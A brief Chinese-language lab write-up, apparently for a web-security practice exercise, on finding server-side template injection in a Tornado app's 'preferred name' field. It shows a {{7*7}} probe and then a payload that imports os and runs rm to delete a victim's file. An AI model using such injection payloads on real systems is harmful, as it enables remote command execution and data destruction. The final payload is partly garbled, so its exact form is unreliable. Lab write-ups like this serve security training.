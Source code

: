 实验提示，Tornado模板。

详细了解“首选名称”功能。



首选名称功能处，使用了对象引用的语法，可能存在模板注入

![](images/C5792D8314E246A8B876ADE54E2BADA9clipboard.png)



payload:

```javascript
{{7*7}}
```



发现会在评论处的姓名中出现预想的49

![](images/A292BBE457A540018053828A5ADC48A4clipboard.png)

说明存在ssti



采用命令执行删除Carlos/morale.txt

paylod:

```javascript
=user.name}}{`%`25+import+os+%25}{`{`os.system('rm%20/home/Carlos/morale.txt')
```

